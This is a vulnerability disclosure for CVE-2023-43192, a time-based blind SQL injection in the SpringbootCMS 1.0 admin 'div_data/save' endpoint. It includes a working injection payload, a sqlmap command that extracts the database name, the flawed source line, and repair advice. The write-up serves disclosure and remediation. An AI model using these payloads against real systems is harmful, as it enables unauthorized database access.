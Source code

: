 # The name of an affected Product.
Springboot version of JFinalcms or SpringbootCMS
# The affected or fixed version(s).
SpringbootCMS 1.0
# The CVE ID for the entry
CVE-2023-43192
# A prose description
SQL injection can exist ina newly created part of the JFinalcms background, and the parameters submitted by users are not filtered. As a result, special characters in parameters destroy the original logic of SQL statements. Attackers can use this vulnerability to execute any SQL statement.
# Other supplement
Hole address: http://ip:8888/admin/div_data/save
The code download address: [https://gitee.com/heyewei/SpringBootCMS.git](https://gitee.com/heyewei/SpringBootCMS.git)
Vulnerability location: After logging in to the system, the custom data of the expanded content, the location of the customer name at the time of creation has sql time blind annotation.
# exploit
Vulnerability point
![image.png](https://cdn.nlark.com/yuque/0/2023/png/21570886/1694506585875-37cef292-a8c7-43f5-b254-1c72c67d0202.png#averageHue=%2368a489&clientId=u7c2a7c15-669d-4&from=paste&height=849&id=u6efc4d54&originHeight=973&originWidth=1913&originalType=binary&ratio=1.1458333730697632&rotation=0&showTitle=false&size=80981&status=done&style=none&taskId=udc6c8f14-6e01-4e87-a7d3-b110595cc16&title=&width=1669.527214829628)
 input 1212' AND (if(left(database(),13)='springbootcms',sleep(5),1)) AND 'OHiO'='OHiO
![image.png](https://cdn.nlark.com/yuque/0/2023/png/21570886/1694506611629-a8c1613e-cba5-43c4-802a-2a5c512d993c.png#averageHue=%23263237&clientId=u7c2a7c15-669d-4&from=paste&height=847&id=u071e8ce6&originHeight=971&originWidth=1906&originalType=binary&ratio=1.1458333730697632&rotation=0&showTitle=false&size=66535&status=done&style=none&taskId=udccb77f4-7f51-49a6-be8f-fb3161d8078&title=&width=1663.4181241323947)
Discovery delay 5 seconds
![image.png](https://cdn.nlark.com/yuque/0/2023/png/21570886/1694507708485-3d288f79-52b7-4044-9716-cd4c69d12286.png#averageHue=%23fbfbfb&clientId=u4204e0bc-9665-4&from=paste&height=715&id=u51b5cb09&originHeight=819&originWidth=1897&originalType=binary&ratio=1.1458333730697632&rotation=0&showTitle=false&size=118649&status=done&style=none&taskId=ub877d790-7c51-4737-bbce-1addbc7fe5f&title=&width=1655.5635789502376)
use sqlmap
![image.png](https://cdn.nlark.com/yuque/0/2023/png/21570886/1694506759108-873b7b9b-a332-46d6-9d71-3a8da0de34c2.png#averageHue=%23100e0d&clientId=u7c2a7c15-669d-4&from=paste&height=696&id=u2d56c9fc&originHeight=798&originWidth=1789&originalType=binary&ratio=1.1458333730697632&rotation=0&showTitle=false&size=120106&status=done&style=none&taskId=uda4c6798-30d3-4ff6-932a-b97eaa9bf3c&title=&width=1561.3090367643517)
python sqlmap.py -r 127_0_0_1_8888_20230912161737.req --tamper=space2comment --batch --current-db
sql is injected out of the database name.
![image.png](https://cdn.nlark.com/yuque/0/2023/png/21570886/1694507159752-18ebf8bb-589f-4622-8c93-e7e2976b6243.png#averageHue=%230e0d0d&clientId=u4204e0bc-9665-4&from=paste&height=765&id=u1c287bf8&originHeight=877&originWidth=1855&originalType=binary&ratio=1.1458333730697632&rotation=0&showTitle=false&size=155778&status=done&style=none&taskId=u17a93641-0116-471f-a688-0d80e1a0552&title=&width=1618.9090347668375)
# Repair suggestion
(1) Using precompiled statements, using PDO requires care not to concatenate variables directly into PDO statements. All query statements use the parameterized query interface provided by the database, and parameterized statements use parameters instead of embedding user input variables into the SQL statement. At present, almost all database systems provide parameterized SQL statement execution interface, which can effectively prevent SQL injection attacks.
(2) Special characters entering the database (' "<>&*; Etc.) for escape processing, or encoding conversion.
# Website source code
The code is located on line 67 of  src/main/java/com/cms/controller/admin/DivDataController.java
![image.png](https://cdn.nlark.com/yuque/0/2023/png/21570886/1694508026138-9d9a2125-d121-4689-bccf-1bab727f9a12.png#averageHue=%232d2c2b&clientId=u79fd5107-38a1-4&from=paste&height=557&id=uc08618a0&originHeight=638&originWidth=1444&originalType=binary&ratio=1.1458333730697632&rotation=0&showTitle=false&size=115198&status=done&style=none&taskId=u0115bce8-5e44-4230-9a36-b91115905f5&title=&width=1260.2181381149937)
Break point on line 70
It can be seen that 74 lines receive input content and execute insert statements using related methods without filtering or other related operations.
![image.png](https://cdn.nlark.com/yuque/0/2023/png/21570886/1694508334670-ab210cdc-74fe-47c9-babe-e13dd54c33e5.png#averageHue=%23372b2a&clientId=ua60f461a-ae5b-4&from=paste&height=389&id=u5dee2983&originHeight=446&originWidth=1461&originalType=binary&ratio=1.1458333730697632&rotation=0&showTitle=false&size=144816&status=done&style=none&taskId=u9c256ebd-1264-4293-ba0e-23430fee644&title=&width=1275.0545012368461)

